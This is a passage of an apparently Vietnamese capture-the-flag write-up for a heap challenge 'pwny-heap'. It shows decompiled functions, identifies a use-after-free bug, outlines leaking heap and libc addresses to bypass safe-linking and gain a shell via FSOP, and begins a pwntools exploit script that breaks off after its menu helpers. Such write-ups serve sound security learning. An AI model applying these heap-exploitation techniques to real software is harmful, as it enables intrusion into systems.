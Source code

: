   free(*(void **)a1);
  result = a1;
  *(_BYTE *)(a1 + 16) = 1;
  return result;
}
```

```show``` : hàm này đơn giản là in dữ liệu của chunk đó ra

```c
int __fastcall sub_14A4(const char **a1)
{
  return printf("here is some data for you buddy: %s", *a1);
}
```

```edit```  : hàm này sẽ chỉnh sửa dữ liệu của chunk 

```C
int __fastcall edit(const char **a1)
{
  if ( *((_BYTE *)a1 + 16) == 1 )
  {
    puts("that won't work...");
    exit(0);
  }
  printf("write something in: ");
  sub_1283();
  fgets((char *)*a1, (int)a1[1], stdin);
  return printf("%s", *a1);
}
```

- nhìn sơ qua đây đúng chuẩn 1 bài heap điển hình với 1 bug UAF , ở đây ta sẽ được malloc() 0x14 chunk , với bài này thì việc leak libc sẽ rất dễ dàng và leak heap cũng vậy , ta sẽ thử làm 3 cách lấy shell với bài này

cách 1 ```FSOP``` : 

- trước hết thì ta sẽ leak heap và libc trước , leak heap để bypass safe-linking và leak libc để get_shell

- ta sẽ malloc 9 chunk và delete 8 chunk , chunk thứ 8 sẽ lọt vào unsorted-bin

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pwny-heap_patched")
libc = ELF("./libc-2.35.so")
ld = ELF("./ld-2.35.so")

context.binary = exe

p = process()

def add(index,size):
    p.sendlineafter(b'> ',b'1')
    p.sendlineafter(b'index: ',f'{index}'.encode())
    p.sendlineafter(b'size: ',f'{size}'.encode())
def delete(idx):
    p.sendlineafter(b'> ',b'2')
    p.sendlineafter(b'index: ',f'{idx}'.encode())
def show(idx):
    p.sendlineafter(b'> ',b'3')
    p.sendlineafter(b'index: ',f'{idx}'.encode())
    p.recvuntil(b'here is some data for you buddy: ')
```
